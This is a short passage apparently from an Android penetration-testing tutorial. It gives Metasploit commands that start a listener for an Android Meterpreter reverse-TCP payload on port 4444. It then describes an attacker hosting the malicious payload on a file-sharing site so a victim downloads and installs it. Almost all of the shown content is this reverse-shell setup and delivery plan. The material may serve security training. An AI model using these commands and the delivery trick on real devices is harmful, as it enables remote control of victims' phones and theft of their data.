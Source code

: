 ![](publish/attachments/Mobile%20Pentest%20(Android)%20by%20RAWSEC-11.png)

```
msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST <your local IP>

set  LPORT 4444

run
```
### 5. Payload Installation & Permission Giveaway

**Attacker POV:**
We hosted the payload on online file sharing platform, the link will be accessed by victim
